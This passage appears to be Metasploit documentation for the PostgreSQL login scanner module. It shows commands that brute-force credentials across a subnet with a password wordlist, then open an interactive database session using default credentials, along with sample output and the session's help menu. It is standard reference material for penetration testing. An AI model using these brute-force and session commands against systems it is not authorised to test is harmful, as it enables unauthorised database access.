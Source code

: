 Brute-force credentials in a subnet:
```
use auxiliary/scanner/postgres/postgres_login
run cidr:/24:postgres://user:pass@192.168.222.0 threads=50
run cidr:/24:postgres://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### Obtaining an Interactive Session
For example:
```msf
msf6 auxiliary(scanner/postgres/postgres_login) > run rhost=127.0.0.1 rport=5432 username=postgres password=password database=template1 createsession=true
```

Should yield:
```msf
[+] 127.0.0.1:5432 - Login Successful: postgres:password@template1
[*] PostgreSQL session 1 opened (127.0.0.1:61324 -> 127.0.0.1:5432) at 2024-03-15 14:00:12 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Use the help command for more info.
```msf
msf6 auxiliary(scanner/postgres/postgres_login) > sessions

Active sessions
===============

  Id  Name  Type        Information                           Connection
  --  ----  ----        -----------                           ----------
  1         postgresql  PostgreSQL postgres @ 127.0.0.1:5432  127.0.0.1:61324 -> 127.0.0.1:5432 (127.0.0.1)

msf6 auxiliary(scanner/postgres/postgres_login) > sessions -i 1
[*] Starting interaction with 1...
```

When interacting with a session, the help command can be useful:
```msf
postgresql @ 127.0.0.1:5432 (template1) > help

Core Commands
=============

    Command            Description
    -------            -----------
    ?                  Help menu
    background         Backgrounds the current session
    bg                 Alias for background
    exit               Terminate the PostgreSQL session
    help               Help menu
    irb                Open an interactive Ruby shell on the current session
    pry                Open the Pry debugger on the current session
    sessions           Quickly switch to another session


PostgreSQL Client Commands
==========================

    Command            Description
    -------            -----------
    query              Run a single SQL query
    query_interactive  Enter an interactive prompt for running multiple SQL queries


```